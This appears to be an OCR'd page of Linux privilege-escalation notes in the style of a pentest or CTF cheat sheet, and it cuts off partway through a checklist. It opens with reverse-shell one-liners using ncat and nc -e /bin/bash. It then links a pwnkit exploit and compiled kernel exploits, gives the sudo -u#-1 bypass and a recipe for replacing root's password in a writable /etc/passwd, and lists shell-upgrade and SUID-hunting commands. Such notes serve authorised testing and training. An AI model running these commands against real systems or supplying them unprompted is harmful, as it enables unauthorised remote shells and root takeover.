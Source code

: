 `ncat -e /bin/bash <IP> <Port>`

`nc -e /bin/bash`

`nc <IP> <Port> -e cmd`

**THE GOAT, pwnkit**

https://github.com/joeammond/CVE-2021-4034

## Low Hanging Fruit

**User with valid credentials (sudo -l):**

- `sudo -l` to see what binaries you can run with `sudo`, head over to [GTFOBins](https://gtfobins.github.io/)
- `sudo -V` to get version, below 1.28 can use `sudo -u#-1 /bin/bash`

**SUID Binaries**

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -perm -4000 2>/dev/null`
- Head over to [GTFOBins](https://gtfobins.github.io/)

**Kernel Exploits:**

- `uname -a` && `searchsploit`
- [Compiled Kernel Exploits](https://github.com/lucyoa/kernel-exploits)
- `~/exploits` and Privilege Escalation notes

**Writable /etc/passwd**

- `ls -la /etc/passwd` to see if you have write permissions
- `openssl passwd -1 -salt hacker hacker` and replace `root` password entry (or delete `x`)
- `su root` `hacker`

## Checklist

- **Upgrade your shell** if it's not fully interactive
    - `python -c 'import pty;pty.spawn("/bin/bash")'`
    - `python -c 'import pty;pty.spawn("/bin/sh")'`
    - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
    - `python3 -c 'import pty;pty.spawn("/bin/sh")'`
- **Get system context current user, hostname, groups**
    - `whoami` `id` `hostname`
- **Check for sudo (valid password) and LD_PRELOAD and LD_LIBRARY_PATH (examples below)**
    - `sudo -l` `sudo -V` (below 1.28 `sudo -u#-1 /bin/bash`)
- **Check for SUID Binaries**
    - `find / -perm -u=s -type f 2>/dev/null`
    - `find / -perm -4000 2>/dev/null`
- **Check groups**
    - https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

- **Check for users && writable /etc/passwd**
    - `ls -la /etc/passwd` `cat /etc/passwd` `ls -l /etc/shadow`
        - EX /etc/passwd:
        